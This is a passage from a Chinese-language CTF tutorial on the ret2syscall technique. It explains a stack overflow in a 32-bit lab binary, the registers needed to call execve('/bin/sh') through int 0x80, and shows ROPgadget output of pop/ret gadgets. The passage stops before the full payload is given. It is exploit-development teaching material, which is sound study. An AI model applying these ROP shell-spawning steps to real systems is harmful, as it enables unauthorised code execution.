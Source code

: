 可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得v4相对于ebp的偏移为108。所以我们需要覆盖的返回地址相对于v4的偏移为112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得shell，所以我们利用程序中的gadgets来获得shell，而对应的shell获取则是利用系统调用。关于系统调用的知识，请参考

- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取shell的系统调用的参数放到对应的寄存器中，那么我们在执行int 0x80就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取shell

```C
execve("/bin/sh",NULL,NULL)
```

其中，该程序是32位，所以我们需要使得

- 系统调用号即eax应该为0xb
- 第一个参数即ebx应该指向/bin/sh的地址，其实执行sh的地址也可以
- 第二个参数即ecx应该为0
- 第三个参数edx应该为0

而我们如何控制这些寄存器的值 呢？这里就需要使用gadgets。比如说，现在栈顶是10，那么如果此时执行了pop eax，那么现在eax的值就为10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在gadgets最后使用ret来再次控制程序执行流程的原因。具体寻找gadgets的方法，我们可以使用ropgadgets这个工具。

首先，我们来寻找控制eax的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

可以看到有上述几个都可以控制eax，那我就选取第二个来作为我的gadgets。

类似的，我们可以得到控制其它寄存器的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
